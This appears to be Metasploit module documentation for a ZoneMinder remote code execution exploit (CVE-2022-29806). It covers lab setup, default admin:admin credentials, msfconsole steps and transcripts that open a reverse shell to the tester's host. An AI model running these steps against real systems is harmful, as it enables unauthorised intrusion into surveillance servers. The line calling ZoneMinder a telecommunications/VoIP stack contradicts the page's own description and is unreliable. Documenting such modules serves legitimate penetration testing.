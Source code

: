 ## Description

This module exploits an arbitrary file write chained with a path traversal in the debug log file option in language settings that leads to a remote code execution in ZoneMinder surveillance software versions before 1.36.13 and before 1.37.11

More about the vulnerability detail: [CVE-2022-29806](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-29806).

The module will automatically use `php/reverse_perl` payload.

The module will check if authentication is enabled but Zoneminder does not enable the authentication by default.

## Vulnerable Application
[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:
* 1.36.4~64bit on Ubuntu 18.04
* 1.34.23~64bit on Debian 11.10

### Source and Installers
* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/)
* [Installers](https://github.com/ZoneMinder/zoneminder/#installation-methods)
* [Docker](https://github.com/ZoneMinder/zmdockerfiles)

### Docker installation
```
docker run -d --rm -ti -p 1080:80 \
    -e TZ='Europe/London' \
    --shm-size="512m" \
    --name zoneminder \
    zoneminderhq/zoneminder:latest-ubuntu18.04
```
Navigate to [http:\//172.17.0.2/zm/index.php?view=privacy](http://172.17.0.2/zm/index.php?view=privacy) and click **APPLY** to activate the dashboard

### Enable authentication
To enable authentication for verification and scenarios, follow this steps:
1. Navigate to [http:\//172.17.0.2/zm/index.php?view=options](http://172.17.0.2/zm/index.php?view=options)
2. Tick the **OPT_USE_AUTH** option and click save
3. Login with the default password `admin:admin`
4. Navigate to [http:\//172.17.0.2/zm/index.php?view=options&tab=users](http://172.17.0.2/zm/index.php?view=options&tab=users) and change the admin password

## Verification Steps
1. Do: `use exploit/unix/webapp/zoneminder_lang_exec`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `run`
5. You should get a shell.

## Options
### USERNAME
The ZoneMinder username (default: admin)
### PASSWORD
The ZoneMinder password (default: admin)

## Scenarios
### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker
```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/rmdQiqoLFCsov.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:58932) at 2022-04-27 03:36:31 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker with authentication enabled
```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set PASSWORD password
PASSWORD => password
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/Cn3PqXcN9VlAR98.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:51944) at 2022-04-27 18:53:14 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Failed exploitation due to invaild credentials
```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[-] Service found, but authentication failed
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable.
[*] Exploit completed, but no session was created.
```
